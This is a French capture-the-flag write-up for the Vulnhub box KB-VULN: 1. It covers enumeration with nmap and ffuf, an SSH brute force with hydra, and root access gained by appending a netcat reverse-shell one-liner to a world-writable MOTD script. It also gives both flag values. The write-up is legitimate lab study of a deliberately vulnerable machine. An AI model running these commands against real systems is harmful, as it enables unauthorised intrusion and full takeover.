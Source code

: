 ```yaml
---
layout: default
title: "Writeup KB-VULN: 1 - Vulnhub"
date:   2020-09-05 07:00:00 +0200
published: true
---
```


# Informations sur la box :

* **Difficulté** : Moyenne
* **Description** : *ENUMERATION ENUMERATION and ENUMERATION! This VM is running on VirtualBox. And has 2 flags:user.txt and flag.txt. This works better with VirtualBox rather than VMware*
* **Type de fichier** : .ova (VirtualBox)
* **DHCP** : Activé
* **Lien** : [https://www.vulnhub.com/entry/kb-vuln-1,540/](https://www.vulnhub.com/entry/kb-vuln-1,540/)


### Ce que nous allons aborder dans ce writeup :

*	[Énumération](#énumération)
* 	[Shell basique](#shell-basique)
*	[Privilege escalation](#privilege-escalation)

* * *

## Énumération
* * *

Malgré le fait qu'elle soit classée "medium" cette box peut concurrencer celle de mon [précédent writeup](https://kr0wz.github.io/fr/2020/09/06/writeup-shelldredd.html) en terme de rapiditer à la finir.

On commence à avoir l'habitude avec les étapes du début :

```bash
nmap -sP 192.168.1.0/24
```

On obtient l'adresse IP de la machine à attaquer qui est la suivante : **192.168.1.32**

On scanne ensuite les ports pour trouver ceux qui sont ouverts avec les services qui tournent dessus :

```bash
nmap -sV -p- 192.168.1.32 -O -A --min-rate 5000 -T5
```

* **-sV** : Permet de scanner les services et d'indiquer les versions et les informations correspondantes
* **-p-** : On scan TOUS les ports
* **-O** : Détection de l'OS
* **-A** : Mode aggressif
* **--min-rate 5000** : Définit le nombre d'envoi de paquets par secondes
* **-T5** : Définit le template comme "rapide"

Pour plus d'informations vous pouvez consulter le ``man`` de nmap.

On obtient :

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: OneSchool &mdash; Website by Colorlib
```

Le serveur **FTP** autorise les **connexion anonymes**. On sait donc qu'il y a de grandes chances de trouver quelque chose d'intéressant dessus.

On s'y connecte avec la commande suivante :

```bash
ftp 192.168.1.32
```

On précise l'utilisateur **anonymous** et on laisse le champ du mot de passe vide.

Il n'y a qu'un fichier **.bash_history** qui correspond au fichier dans lequel les commandes entrées par un utilisateur lorsqu'il est sur sa session sont enregistrées. On le récupère via le FTP puis on affiche son contenu

```bash
get .bash_history
exit
cat .bash_history
```
```
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
```

On obtient l'information de l'existence du fichier ``00-header`` contenu dans le répertoire ``/etc/update-motd.d/``. Il s'agit du **Message Of The Day** (MOTD).

Il est exécuté lorsqu'on se connecte au SSH et contient souvent les informations de la date actuelle et peut être personnalisé.


On se rend du côté du serveur web en lançant notre merveilleux outil **fuff** :

```bash
/opt/ffuf/ffuf -u http://192.168.1.32/FUZZ -w /usr/share/dirb/wordlists/directory-list-2.3-big.txt -e .html,.txt,.php
```

On a pour résultat des dossiers basiques qui n'ont pas grand intérêt à première vue :

```
images                  [Status: 301, Size: 313, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 25578, Words: 6731, Lines: 565]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10]
```

On se rend directement sur le site web [http://192.168.1.32](http://192.168.1.32) et on regarde le **code source**. 

Au début rien puis vers la fin on voit un commentaire plutôt intéressant :

```html
<!-- Username : sysadmin -->
```

Ok ! On possède déjà un nom d'utilisateur !

J'ai donc continué d'éplucher toutes les pages du serveur web mais rien d'autre a signaler.

J'ai cru que j'étais tombé sur un fichier important à l'adresse [http://192.168.1.32/fonts/flaticon/backup.txt](http://192.168.1.32/fonts/flaticon/backup.txt) mais après décodé le base 64 il s'agissait simplement d'informations liées à une image.

* * *

## Shell basique

A ce moment nous n'avons qu'un nom d'utilisateur sans mot de passe. Ne serait-ce pas le moment de tenter un **brute force** du serveur SSH ?

Pour ce faire on utilise ``hydra`` avec la commande suivante :

```bash
hydra -l sysadmin -P /usr/share/wordlist/rockyou.txt 192.168.1.32 -t 4 ssh -s 22
```

On indique l'utilisateur que l'on a trouvé précédemment, la wordlist ainsi que le service  brute forcer. Dans notre cas SSH sur le port 22.

Après quelques instants un résultat sort :

```
[22][ssh] host: 192.168.1.32   login: sysadmin   password: password1
```

On peut donc se connecter en SSH avec les identifiants suivants : **sysadmin:password1**

On peut directement récupérer le flag user :

```bash
cat /home/sysadmin/user.txt
```
```
48a365b4ce1e322a55ae9017f3daf0c0
```

* * *

## Privilege escalation

On se souvient du fichier qui était dans le FTP : **.bash_history**                                                                                                                                    
Allons voir les droits du fichier qui contient le ``motd`` :

```bash
ls -la /etc/update-motd.d/00-header

-rwxrwxrwx 1 root root 1074 Sep  6 08:12 /etc/update-motd.d/00-header
```

Très bonne nouvelle : on peut le **modifier** !

Comme dit précédement ce fichier est exécuté en tant que root à chaque fois qu'une session SSH est ouverte. 

De ce fait il nous suffit d'y ajouter un reverse shell, de quitter la session et de s'y reconnecter pour obtenir un accès root sur la machine :

```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.1.16 4444 >/tmp/f" >> /etc/update-motd.d/00-header
```

De notre côté un se met en mode écoute avec ``nc`` :

```bash
nc -lnvp 4444
```

On se reconnecte avec SSH et magie ! Nous sommes root.

Il ne nous reste plus qu'à récupérer le dernier flag :

```bash
cat /root/flag.txt
```
```
1eedddf9fff436e6648b5e51cb0d2ec7
```

Cette box n'était pas très compliquée mais bien fun à faire :)

Merci à **MachineBoy** pour avoir créé et partagé cette machine !